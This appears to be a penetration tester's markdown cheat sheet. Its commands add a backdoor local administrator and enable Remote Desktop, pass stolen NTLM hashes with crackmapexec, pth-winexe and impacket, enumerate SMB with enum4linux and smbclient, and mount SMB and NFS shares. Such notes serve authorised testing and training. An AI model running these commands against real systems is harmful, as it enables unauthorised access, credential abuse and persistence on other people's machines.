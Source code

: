 #### account management

*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```

-----


#### pass the hash

```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe```

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```

-----


#### enum4linux

*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```

-----


#### smbclient

*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```

-----


#### smbmount

```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```

-----
  
  
#### nfs
  
*nfs mount after rpc enum*
  
```showmount -e 10.10.79.161```
  
```mount -t nfs 10.10.79.161:/home ~/tmp/mount -nolock```
  
```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.85.128```




